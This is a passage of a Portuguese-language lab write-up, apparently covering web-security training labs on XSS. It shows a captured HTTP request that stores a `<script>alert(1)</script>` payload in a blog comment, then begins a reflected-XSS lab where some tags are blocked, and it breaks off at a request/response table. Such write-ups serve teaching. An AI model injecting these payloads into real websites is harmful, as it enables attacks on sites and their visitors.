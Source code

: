 ```http
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=G5Rkm7KlTXfbqky0lb1JNPDhDIOFMLv2&postId=10&comment=<script>alert(1)</script>&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Dessa forma o payload XSS fica armazenado no banco de dados e é renderizado na página sempre que o post for acessado.

![payload](stored_alert.png)

E assim é concluído o laboratório.

![concluido](stored_concluido.png)

---

<div class="page"/>

## **<a id="3"> • Reflected XSS into HTML context with most tags and attributes blocked.</a>**

O objetivo desse laboratório é explorar uma vulnerabilidade de "`Cross-site Scripting (XSS) - Refletido`".

Porém quando enviarmos o payload de XSS simples como `<scrip>alert(1)</script>` para o campo de pesquisa, o payload não será executado, pois a aplicação está bloqueando algumas tags e atributos HTML.

**Request** | **Response** 
:---------: | :------: